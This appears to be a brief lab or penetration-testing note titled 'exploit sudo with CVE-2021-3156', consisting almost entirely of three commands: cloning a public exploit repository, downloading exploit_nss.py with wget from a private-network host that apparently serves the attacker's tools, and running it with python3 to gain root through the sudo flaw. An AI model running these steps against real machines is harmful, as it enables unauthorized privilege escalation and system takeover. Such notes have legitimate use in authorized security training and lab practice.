 exploit sudo with CVE-2021-3156

download
```
git clone https://github.com/worawit/CVE-2021-3156.git
```

```
wget http://192.168.45.218:8000/relia/CVE-2021-3156/exploit_nss.py
```

```
python3 exploit_nss.py
```

